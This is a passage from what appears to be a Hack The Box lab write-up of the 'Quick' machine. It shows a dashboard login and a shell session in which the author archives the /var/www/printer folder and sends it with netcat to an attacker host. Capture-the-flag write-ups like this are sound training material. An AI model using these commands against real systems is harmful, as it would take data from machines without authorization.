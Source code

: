![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-quick/Untitled%2013.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-quick/Untitled%2013.png)

We logged in to the dashboard.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-quick/Untitled%2014.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-quick/Untitled%2014.png)

I compress the whole `/var/www/printer` folder and send that via netcat

```php
sam@quick:/tmp$ tar -zcf /tmp/printer.tar.gz /var/www/printer
tar -zcf /tmp/printer.tar.gz /var/www/printer
tar: Removing leading `/' from member names
sam@quick:/tmp$ nc -w 3 10.10.14.9 1234 < printer.tar.gz
nc -w 3 10.10.14.9 1234 < printer.tar.gz

```
